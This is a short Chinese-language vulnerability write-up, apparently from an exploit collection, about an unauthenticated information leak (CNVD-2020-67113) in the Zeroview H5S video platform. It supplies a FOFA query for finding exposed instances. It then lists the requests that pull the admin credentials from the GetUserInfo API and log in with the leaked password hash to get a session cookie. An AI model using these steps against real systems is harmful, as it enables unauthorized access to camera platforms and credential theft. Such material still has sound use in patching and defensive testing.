





# 零视科技 H5S视频平台 GetUserInfo 信息泄漏漏洞 CNVD-2020-67113

## 漏洞描述

零视技术(上海)有限公司是以领先的视频技术服务于客户，致力于物联网视频开发简单化，依托于HTML5 WebRTC 等新的技术，实现全平台视频播放简单化。 零视技术(上海)有限公司H5S CONSOLE存在未授权访问漏洞。攻击者可利用漏洞访问后台相应端口，执行未授权操作。

## 漏洞影响

```
零视科技 H5S视频平台
```

## FOFA

```
title="H5S视频平台|WEB"
```

## 漏洞复现

登录页面



API文档可以未授权访问

```
/doc/api.html
```



存在用户账号密码泄漏的接口

```
/api/v1/GetUserInfo?user=admin&session=
```



其中登录接口中 Password为接口中存在的账号密码，可以直接发送请求获取Cookie

```
/api/v1/Login?user=admin&password=827ccb0eea8a706c4c34a16891f84e7b
```



请求成功后访问主页面

